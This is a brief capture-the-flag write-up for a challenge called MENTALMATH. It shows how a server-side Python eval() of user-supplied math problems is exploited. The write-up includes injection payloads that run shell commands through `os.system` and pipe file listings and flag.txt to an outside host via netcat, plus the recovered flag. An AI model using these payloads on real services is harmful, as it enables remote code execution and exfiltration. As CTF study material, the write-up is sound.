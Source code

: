 # MENTALMATH

- Math problem can be forged at userside
- Changed problem to `1 + 2 + 3` and sent `6`. Correct.
- Invalid problem such as `&DN` gives 500 response code.
- Guess serverside uses some kind of `eval()` function.
- Let problem be `len('1234')` and sent `4`. Correct!
- It seems python!.
- Listen by `nc -lvp [PORT]`.
- Make problem `__import__('os').system('ls | nc [IP] [PORT]')`

```
db.sqlite3
flag.txt
manage.py
mathgame
mentalmath
requirements.txt
```

- Make problem `__import__('os').system('cat flag.txt | nc [IP] [PORT]')`

```
gigem{1_4m_g0od_47_m4tH3m4aatics_n07_s3cUr1ty_h3h3h3he}
```

- `manage.py`

```python
#!/usr/bin/env python
import os
import sys

if __name__ == '__main__':
    os.environ.setdefault('DJANGO_SETTINGS_MODULE', 'mentalmath.settings')
    try:
        from django.core.management import execute_from_command_line
    except ImportError as exc:
        raise ImportError(
            "Couldn't import Django. Are you sure it's installed and "
            "available on your PYTHONPATH environment variable? Did you "
            "forget to activate a virtual environment?"
        ) from exc
    execute_from_command_line(sys.argv)
```
